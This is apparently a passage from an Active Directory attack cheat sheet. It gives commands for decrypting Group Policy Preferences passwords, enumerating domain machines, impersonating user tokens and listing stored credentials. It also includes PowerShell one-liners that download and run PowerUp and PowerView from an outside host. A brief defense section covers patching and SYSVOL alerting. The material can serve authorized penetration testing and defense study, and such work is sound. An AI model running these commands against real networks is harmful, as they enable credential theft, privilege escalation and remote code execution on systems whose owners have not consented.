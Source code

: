 Decrypt encrypted password:
```
gpp-decrypt $cpassword
```

```
Get-GPPPassword
Get-NetOU -GUID "{4C86DD57-4040-41CD-B163-58F208A26623}" | %{ Get-NetComputer -ADSPath $_ }
// All OUs connected to policy | List all domain machines tied to OU
```

```
IEX(New-Object Net.WebClient).DownloadString("http://192.168.100.3/tmp/PowerUp.ps1")
IEX(New-Object Net.WebClient).DownloadString("http://192.168.100.3/tmp/PowerView.ps1")

Get-CachedGPPPassword
```

- Future - Local Administrator Password Solution (LAPS): https://www.microsoft.com/en-us/download/details.aspx?id=46899

#### Defense

- Prevent passwords from getting added to GPP (KB2962486) and delete existing GPP from SYSVOL containing passwords.
- **[ALERTING]** Detect by setting Everyone:DENY on SYSVOL GPP file. (Logs: Audit access denied)

### Token Impersonation

PowerSploit / Incognito

List all tokens
```
Invoke-TokenManipulation -ShowAll
```

List all unique and usable tokens
```
Invoke-TokenManipulation -Enumerate
```

Start new process with token of a user
```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```

Start new process with token of another process
```
Invoke-TokenManipulation -CreateProcess "C:\Windown\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

### cmdkey

- Creates, lists, and deletes stored user names and passwords or credentials.
- Usable with "runas /savecred"

```
cmdkey /list
```
